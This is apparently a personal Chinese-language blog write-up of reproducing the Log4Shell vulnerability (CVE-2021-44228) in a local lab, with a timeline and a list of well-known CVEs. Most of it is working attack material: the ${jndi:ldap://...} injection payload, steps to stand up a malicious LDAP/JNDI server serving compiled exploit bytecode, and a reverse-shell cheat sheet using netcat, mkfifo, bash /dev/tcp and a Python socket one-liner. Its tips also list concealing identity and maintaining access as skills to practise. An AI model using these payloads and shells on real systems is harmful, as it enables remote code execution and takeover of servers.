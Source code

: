 ```yaml
---
title: CVE-2021-44228
date: 2021-12-13 21:27:06
tags:
---
```



漏洞详情
-----
### 受影响的版本
all log4j-core versions >=2.0-beta9 and <=2.14.1
### 基本原理
由于对应版本的log4j2中，打印日志时会通过JNDI请求LDAP数据来构造更精美的日志输出，而如果用户输入的内容包含${jndi:ldap://host:port/exp}，则会被log4j2获取并执行，只要运行一个恶意的JNDI服务器，在含有该漏洞的地方注入这段代码，那么将会以运行该Java程序的用户权限执行该指令（RCE）
### exploit
#### 构建后端恶意JDNI服务（方法1）：
1. 编译Exploit.java为字节码，同目录下使用python3的http服务器，这一步是为了让受影响的服务器远程获取我们需要执行的恶意代码
```
javac Exploit.java
python3 -m http.server 8888
```
2. 使用marshalsec来创建一个恶意的JNDI服务
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

#### 构建后端恶意JDNI服务（方法2）：[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned"
```

#### 简单构造存在漏洞的java+log4j2环境
```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        //高版本的jdk默认trustURLCodebase为false，因此不能成功利用JNDI注入
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```
运行即可触发漏洞，受害者把本该打印的文本内容作为JNDI解析，获取远程服务器的Java字节码，并在本地执行（可以直接反弹shell）

### Tips
+ 本地exp没有问题，远程exp有问题（尝试各个网络位置，各种jdk版本，最后换了一个恶意JNDI完事）
+ 从尝试echo hello world没反应到尝试touch /tmp/pwned再到反弹shell
+ 使用JNDI injection exploit来搭建恶意JNDI服务器来利用漏洞，不要用上面github仓库那个方法，会遇到超多问题（例如：java版本不对，没法远程利用，reference class name: foo，或者jdk1.8需要maven构建，又是一堆问题，不要尝试，直接使用下面这个repo来exp）[JNDI Injection Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
+ 命令会被作为参数传入Runtime.getRuntime().exec()，所以需要确保命令传入exec()方法可执行。（使用bash -c "echo hello > /tmp/pwned"等）

反弹shell
-----
### 攻击方
```
nc -vnl 2222
```

### 受害者

#### Netcat
```
rm /tmp/f && mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 2222 > /tmp/f
```
或者
```
nc 127.0.0.1 2222 -e /bin/bash
```
#### Bash
```
bash -c 'bash -i >& /dev/tcp/127.0.0.1/2222 0>&1'
```
#### Python
+ 源代码
```
import os, socket, subprocess
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2222))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p=subprocess.call(['/bin/bash', '-i'])
```
+ 命令行直接执行
```
python -c \"import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('127.0.0.1',2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash', '-i'])\"
```

工具总结
-----
+ Java, JDK：高版本可能存在问题，尽量使用低版本（***插入图片***）
+ maven：使用pom.xml构建Java工程（***插入图片***）
+ log4j：日志管理工具
+ dnslog：接受带出来的访问信息
+ make：精简测试
+ tmux：分屏同时测试
+ github：创建repo来记录

技术总结
-----
### 漏洞的生命周期
+ 漏洞一直存在（无人发现）
+ 黑客发现0day自己保存
+ 漏洞公开，exp简单，伤害性大，影响范围极广（性价比高，范围广）
+ 缓解方法出现
+ 补丁出现，大家开始修复漏洞
+ 漏洞影响范围降低，但仍有漏网之鱼

### Log4Shell时间线
|日期|事件|
|----|----|
|2021-12-09|曝出漏洞，掀起话题|
|2021-12-10|开始出现大量exp|
|2021-12-11|bbs elastic search，熬夜本地exp成功（远程exp不行）|
|2021-12-12|还是不行，找到其他恶意JNDI，继续尝试|
|2021-12-13|远程exp成功，反弹shell成功（但不能任意反弹shell）|

### 一些知名漏洞
|Name|service|CVE|
|----|-------|---|
|Heartbleed|openssl|CVE-2014-0160|
|Eternalblue|smb|CVE-2017-0144(MS17-010)|
|BlueKeep|rdp|CVE-2019-0708|
|Log4Shell|log4j2|CVE-2021-44228|

### Tips
+ 今后要重点加强的内容，不能机会来了才磨剑（隐匿身份、维持访问、反弹shell、尝试并分类总结各种漏洞）
+ 测试基本功能后，再深入（如dnslog能不能用，）
+ 明确攻击方和防守方的边界
+ 写博客所感
	+ 初学者使用vim时千万不要同时开着中文输入法，会彻底毁掉你对vim的好感！！！
	+ markdown的每个段落后需要有个分段，不然格式会乱
+ 软件开发本来就是渐进的（从骨架到血肉），不是一蹴而就的（git版本控制）

参考资源
-----
+ [https://github.com/whitel/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/whitel/CVE-2021-44228-Apache-Log4j-Rce)
+ [https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce0)
+ [Github Stargazer](https://starchart.cc/)
+ [maven plugin error](https://stackoverflow.com/questions/32368758/log4j2-java-lang-noclassdeffounderror-org-apache-logging-log4j-logmanager)
